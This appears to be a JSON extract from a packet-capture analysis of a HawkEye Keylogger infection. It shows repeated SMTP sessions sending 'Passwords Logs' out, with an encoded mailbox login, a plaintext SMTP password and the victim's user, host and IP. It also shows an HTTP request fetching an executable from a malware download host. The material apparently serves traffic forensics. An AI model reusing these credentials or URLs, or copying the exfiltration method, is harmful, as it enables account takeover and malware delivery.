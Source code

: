 ```json
    "combined_smtp_message": "EHLO Beijing-5cd1-PC\nAUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==\nSales@23\n0\u0002\u000b\nRCPT TO:<sales.del@macwinlogistics.in>\nDATA\nMIME-Version: 1.0From: sales.del@macwinlogistics.inTo: sales.del@macwinlogistics.inDate: 10 Apr 2019 20:38:08 +0000Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=Content-Type: text/plain; charset=utf-8Content-Transfer-Encoding: base64\nHawkEye Keylogger - Reborn v9\r\nPasswords Logs\r\nroman.m\nry Strong\n smtp.pizzajukebox\nEHLO Beijing-5cd1-PC\nAUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==\nSales@23\n0\u0002\u000b\nRCPT TO:<sales.del@macwinlogistics.in>\nDATA\nMIME-Version: 1.0From: sales.del@macwinlogistics.inTo: sales.del@macwinlogistics.inDate: 10 Apr 2019 20:48:18 +0000Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=Content-Type: text/plain; charset=utf-8Content-Transfer-Encoding: base64\nHawkEye Keylogger - Reborn v9\r\nPasswords Logs\r\nroman.m\nry Strong\n smtp.pizzajukebox\nEHLO Beijing-5cd1-PC\nAUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==\nSales@23\n0\u0002\u000b\nRCPT TO:<sales.del@macwinlogistics.in>\nDATA\nMIME-Version: 1.0From: sales.del@macwinlogistics.inTo: sales.del@macwinlogistics.inDate: 10 Apr 2019 20:58:22 +0000Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=Content-Type: text/plain; charset=utf-8Content-Transfer-Encoding: base64\nHawkEye Keylogger - Reborn v9\r\nPasswords Logs\r\nroman.m\nry Strong\n smtp.pizzajukebox\nEHLO Beijing-5cd1-PC\nAUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==\nSales@23\n0\u0002\u000b\nRCPT TO:<sales.del@macwinlogistics.in>\nDATA\nMIME-Version: 1.0From: sales.del@macwinlogistics.inTo: sales.del@macwinlogistics.inDate: 10 Apr 2019 21:08:27 +0000Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=Content-Type: text/plain; charset=utf-8Content-Transfer-Encoding: base64\nHawkEye Keylogger - Reborn v9\r\nPasswords Logs\r\nroman.m\nry Strong\n smtp.pizzajukebox\nEHLO Beijing-5cd1-PC\nAUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==\nSales@23\n0\u0002\u000b\nRCPT TO:<sales.del@macwinlogistics.in>\nDATA\nMIME-Version: 1.0From: sales.del@macwinlogistics.inTo: sales.del@macwinlogistics.inDate: 10 Apr 2019 21:18:30 +0000Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=Content-Type: text/plain; charset=utf-8Content-Transfer-Encoding: base64\nHawkEye Keylogger - Reborn v9\r\nPasswords Logs\r\nroman.m\nry Strong\n smtp.pizzajukebox\nEHLO Beijing-5cd1-PC\nAUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==\nSales@23\n0\u0002\u000b\nRCPT TO:<sales.del@macwinlogistics.in>\nDATA\nMIME-Version: 1.0From: sales.del@macwinlogistics.inTo: sales.del@macwinlogistics.inDate: 10 Apr 2019 21:28:33 +0000Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=Content-Type: text/plain; charset=utf-8Content-Transfer-Encoding: base64\nHawkEye Keylogger - Reborn v9\r\nPasswords Logs\r\nroman.m\nry Strong\n smtp.pizzajukebox\nEHLO Beijing-5cd1-PC\nAUTH login c2FsZXMuZGVsQG1hY3dpbmxvZ2lzdGljcy5pbg==\nSales@23\n0\u0002\u000b\nRCPT TO:<sales.del@macwinlogistics.in>\nDATA\nMIME-Version: 1.0From: sales.del@macwinlogistics.inTo: sales.del@macwinlogistics.inDate: 10 Apr 2019 21:38:36 +0000Subject: =?utf-8?B?SGF3a0V5ZSBLZXlsb2dnZXIgLSBSZWJvcm4gdjkgLSBQYXNzd29yZHMgTG9ncyAtIHJvbWFuLm1jZ3VpcmUgXCBCRUlKSU5HLTVDRDEtUEMgLSAxNzMuNjYuMTQ2LjExMg==?=Content-Type: text/plain; charset=utf-8Content-Transfer-Encoding: base64\nHawkEye Keylogger - Reborn v9\r\nPasswords Logs\r\nroman.m\nry Strong\n smtp.pizzajukebox",
    "packets": [
        {
            "timestamp": 1554946674.727276,
            "source_ip": "10.4.10.132",
            "destination_ip": "217.182.138.150",
            "source_mac": "00:08:02:1c:47:ae",
            "destination_mac": "20:e5:2a:b6:93:f1",
            "protocol": 6,
            "payload": "GET /proforma/tkraw_Protected99.exe HTTP/1.1\r\nAccept: */*\r\nAccept-Encoding: gzip, deflate\r\nUser-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)\r\nHost: proforma-invoices.com\r\nConnection: Keep-Alive\r\n\r\n",
            "source_port": 49204,
            "destination_port": 80,
            "http_headers": {
                "Accept": "*/*",
                "Accept-Encoding": "gzip, deflate",
                "User-Agent": "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
                "Host": "proforma-invoices.com",
                "Connection": "Keep-Alive"
```